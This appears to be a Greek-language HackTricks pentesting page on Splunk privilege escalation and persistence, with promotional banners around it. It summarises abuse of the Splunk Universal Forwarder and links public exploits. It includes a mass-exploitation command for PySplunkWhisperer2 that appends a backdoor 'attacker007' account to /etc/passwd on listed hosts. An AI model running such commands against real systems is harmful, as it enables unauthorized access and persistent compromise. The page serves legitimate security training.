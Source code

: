 # Splunk LPE and Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Αν **καταμετράτε** μια μηχανή **εσωτερικά** ή **εξωτερικά** και βρείτε **το Splunk να τρέχει** (θύρα 8090), αν έχετε την τύχη να γνωρίζετε οποιαδήποτε **έγκυρα διαπιστευτήρια** μπορείτε να **καταχραστείτε την υπηρεσία Splunk** για να **εκτελέσετε ένα shell** ως ο χρήστης που τρέχει το Splunk. Αν το τρέχει ο root, μπορείτε να αναβαθμίσετε τα δικαιώματα σε root.

Επίσης, αν είστε **ήδη root και η υπηρεσία Splunk δεν ακούει μόνο σε localhost**, μπορείτε να **κλέψετε** το **αρχείο** κωδικών **από** την υπηρεσία Splunk και να **σπάσετε** τους κωδικούς, ή να **προσθέσετε νέα** διαπιστευτήρια σε αυτό. Και να διατηρήσετε την επιμονή στον host.

Στην πρώτη εικόνα παρακάτω μπορείτε να δείτε πώς φαίνεται μια σελίδα web του Splunkd.



## Splunk Universal Forwarder Agent Exploit Summary

Για περισσότερες λεπτομέρειες ελέγξτε την ανάρτηση [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). Αυτό είναι απλώς μια σύνοψη:

**Exploit Overview:**
Μια εκμετάλλευση που στοχεύει τον Splunk Universal Forwarder Agent (UF) επιτρέπει στους επιτιθέμενους με τον κωδικό του agent να εκτελούν αυθαίρετο κώδικα σε συστήματα που τρέχουν τον agent, ενδεχομένως να διακυβεύσουν ολόκληρο το δίκτυο.

**Key Points:**
- Ο agent UF δεν επικυρώνει τις εισερχόμενες συνδέσεις ή την αυθεντικότητα του κώδικα, καθιστώντας τον ευάλωτο σε μη εξουσιοδοτημένη εκτέλεση κώδικα.
- Κοινές μέθοδοι απόκτησης κωδικών περιλαμβάνουν την εύρεση τους σε καταλόγους δικτύου, κοινές χρήσεις αρχείων ή εσωτερική τεκμηρίωση.
- Η επιτυχής εκμετάλλευση μπορεί να οδηγήσει σε πρόσβαση σε επίπεδο SYSTEM ή root σε διακυβευμένους hosts, εξαγωγή δεδομένων και περαιτέρω διείσδυση στο δίκτυο.

**Exploit Execution:**
1. Ο επιτιθέμενος αποκτά τον κωδικό του agent UF.
2. Χρησιμοποιεί το API του Splunk για να στείλει εντολές ή scripts στους agents.
3. Πιθανές ενέργειες περιλαμβάνουν εξαγωγή αρχείων, χειρισμό λογαριασμών χρηστών και διακυβέρνηση συστήματος.

**Impact:**
- Πλήρης διακυβέρνηση του δικτύου με δικαιώματα SYSTEM/root σε κάθε host.
- Πιθανότητα απενεργοποίησης της καταγραφής για να αποφευχθεί η ανίχνευση.
- Εγκατάσταση backdoors ή ransomware.

**Example Command for Exploitation:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**Χρήσιμα δημόσια exploits:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Κατάχρηση Ερωτημάτων Splunk

**Για περισσότερες λεπτομέρειες ελέγξτε την ανάρτηση [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
